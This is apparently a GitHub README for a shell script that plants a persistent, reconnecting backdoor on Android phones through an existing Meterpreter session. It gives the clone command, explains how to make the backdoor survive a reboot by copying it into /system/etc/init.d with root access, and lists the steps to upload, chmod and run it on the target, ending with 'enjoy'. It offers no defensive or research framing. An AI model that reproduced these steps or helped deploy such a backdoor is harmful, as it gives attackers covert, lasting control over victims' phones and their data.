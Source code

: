 # My persistant android backdoor

## Installation
```
git clone https://github.com/derosploit/android-persistant.sh/
```
## Description
This scripts creates a persistent reconnecting backdoor on android phones
when run this script is active until reboot on non-rooted devices
To make it persistent on reboot
copy the persistant.sh in the /system/etc/init.d folder N.B this requires root permission on device
## Implementation
This script is implemented using for metersploit
## Requirements
a running meterpreter session on target device
## Usage
upload the script in the device and enjoy

Assume this is our meterpreter session 
#meterpreter> upload persistent.sh
#meterpreter> shell 
#chmod 755 persistent.sh
#./persistent.sh 
##Enjoy!

